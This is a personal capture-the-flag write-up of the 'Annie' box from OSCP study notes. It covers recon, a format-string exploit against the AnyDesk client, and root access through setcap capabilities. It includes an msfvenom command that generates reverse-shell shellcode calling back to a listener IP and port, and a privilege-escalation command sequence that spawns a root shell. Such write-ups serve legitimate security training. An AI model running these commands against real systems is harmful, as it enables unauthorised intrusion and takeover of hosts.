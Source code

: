 # Annie Helped-Through

Name: Annie
Date:  19/01/2023
Difficulty:  Medium
Goals:  
- Keep OSCP mindset and method
- Power through this brain fuzz flu with fun and community
- Concatenate my OSCP notes and my QBM for a better workflow, improving cpabablities and retention
- \*Bins usage for the red team
- Patch the vuln
- Write my Naabu script replacement for masscan in AutomateRecon
Learnt:
- C and Exploit basic expliot Dev revision
- Example of combining pieces of a privilege escalation
- Check the shebang on the python exploit.
Beyond Root:
- Patch the exploit

I decided to take a break from pretty much everything as this brain fuzz from this flu is still going to keep affecting me. Needed to think about my challanges and objectives for the year so the time helped. So I am here once again with Helped-Through just because I have felt at peak cognitively for like 4-5 weeks. Christmas was a good distraction from that, but life goes on. I also want to finish off [[Temple-Helped-Through]], [[Biblioteca-Helped-Through]] and [[Agent-T-Writeup]] along with [[Aratus-Helped-Through]] to round out some beyond root activities I need to do. Also I need to push my execise routine to higher than it was pre 2023 and these stream have the stream raiders segements to get up, stretch and pound out another straight one punch man plus extras.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)



Nmap finds AnyDesk Client. Presumptively I already `searchsploit`-ed and search engine dorked it, but the was not an idication of the exactness of the version from what I or the stream gather. [AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) leads to a detailed blog post. 

Al asks what [TCP Wrappers](https://en.wikipedia.org/wiki/TCP_Wrappers) is a host-based networking ACL system used to filter network access to TCP/IP Unix-like OSs thereby allowing the host or subnet information - IPs, names, ident query replies, to be used as tokens on which to filter for access control purposes. [Regrading how to bypass TCP Wrappers](https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan) the [author of the SecWiki article](https://secwiki.org/w/FAQ_tcpwrapped) - *"When `nmap` ([[Nmap-Cheatsheet]]) labels something `tcpwrapped`, it means that the behavior of the port is consistent with one that is protected by tcpwrapper. Specifically, it means that a full TCP handshake was completed, but the remote host closed the connection without receiving any data. It is important to note that tcpwrapper protects _programs_, not ports. This means that a valid (not false-positive) `tcpwrapped` response indicates a real network service is available, but you are not on the list of hosts allowed to talk with it. When such a large number of ports are shown as `tcpwrapped`, it is unlikely that they represent real services, so the behavior probably means something else. What you are probably seeing is a network security device like a firewall or IPS. Many of these are configured to respond to TCP portscans, even for IP addresses which are not assigned to them. This behavior can slow down a port scan and cloud the results with false positives."
 

This was easy the only issue I would have had is figuring this out to be a python2 exploit when the code looks very python3. 

## Exploit

[AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) is format string vulnerability, which is using formatting of strings in functoin calls with a foprmat specifier  `"%s"`, which points to a  character array that is reference after the literal string `"string data here"`. These character arrays are terminated with a null byte to indicate that the string has ends. Basically you can use `printf` usign format strings that are point to parts of memory that can be used to dump memory it should not. Or with `scanf` write data to memory. `C` has a history of unsafe memory handling, there aer safer versions of functions that are still commonly referrenced in modern C tutorials and bootcamps. 

[Al read and explained the blog post](https://devel0pment.de/?p=1881), some takeways.
- Al points out this is ACTUALLY a UDP exploit from reading the script. - Read the script

The only change is required is the the shellcode. It failed and I orginally thought it was due to byte and string related pissues of the exploit and that it required modifying by seperating and converting the exploit code passed to the custom function into bytes prior to function call.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

Just scan the port indicated in the exploit... 
I write this because my solution was to gather data not enumerate the port first. This is has been an issue in the past. Adding this to a another goal of a CTF and my QBM. 


UDP scan:
- Only if a port is closed will RST packet be sent, if a firewall is in the way you will get alot of false positive

Remote Desktop Software will often use UDP for fast a possible data streaming.

Jumping around while tackling the issue rather than the linear linear 

It is also in python2...

## Foothold && PrivEsc

![1000](areyouokanniewiththatpython2exploit.png)

It is a combination of sticky bit on setcap
![](nogtfobins.png)
I remember this on many boxes seperately over the years and in combination
```bash
# Find setcap
find / -type f -perm -04000 -ls 2>/dev/null
# Check the capabilities on a linux system
getcap -r / 2>/dev/null
# copy a binary we control  
cp /usr/bin/python3 /tmp/python3
# give this binary the capabilites to setuid
setcap cap_setuid+ep python3
/usr/bin/python[ver] -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

[Artical](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how

![](wearenowroot.png)

## Beyond Root

I changed this beyond root to compile all of my previous musing over boxes thought and wrote for 30 minutes but problems with solving problems 